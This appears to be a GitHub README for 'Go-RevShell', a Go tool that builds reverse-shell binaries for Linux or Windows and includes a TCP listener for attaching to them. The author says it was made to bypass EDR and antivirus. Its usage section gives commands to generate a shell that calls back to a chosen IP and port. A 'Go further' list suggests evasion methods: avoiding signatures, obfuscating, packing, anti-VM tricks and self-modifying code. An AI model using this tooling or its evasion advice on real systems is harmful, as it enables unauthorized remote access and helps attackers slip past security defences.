 ![Go-RevShell-Banner](img/Go-RevShell-Banner.jpeg)

Go-RevShell
=======

Pure standard Golang implementation of a reverse-shell generator and a netcat like tcp listener to attach the shell without any other piece of code. Made by a student for educational purposes only.

## Why
As an infosec student, I had to bypass some EDR and antivirus sec solutions (see the "Go further" section). So I needed this kind of software which I could not find easily on the web, so I built this.

## Usage
```text
  -i string
        IP of the host which the reverse shell will connect to. (default "localhost")
  -l string
        Port to listen (you can use this argument to bind to your reverse shell). (default "0")
  -p string
        Port of the host which the reverse shell will connect to. (default "1111")
  -s string
        OS of the server which will start the reverse shell (used to build the right binary) available : "windows", "linux". (default "linux")
```

### Build a reverse shell

* Build a shell for linux server : ```go run main.go -s linux```
* Build a shell for windows server : ```go run main.go -s windows```
* Build a shell for windows server to be attached on 192.1.1.10:4444 : ```go run main.go -i 192.168.1.10 -p 4444 -s windows```

### Attach to reverse shell

* Listen on port 1111 ```go run main.go -l 1111```

## Screenshots

![Go-RevShell-Generate](img/Go-RevShell-Generate.png)
![Go-RevShell-Attach](img/Go-RevShell-Attach.png)

## Go further
Some ideas to go further using this tool :
- Avoid signatures (build your own template)
- Obfuscate your code (decrease lisibility)
- Pack your shell (ie. https://github.com/EgeBalci/amber)
- Add anti-vm tricks to your shell template
- Self-modifying code
- ...

## Todo List

* Publish package

**[`^        back to top        ^`](#)**
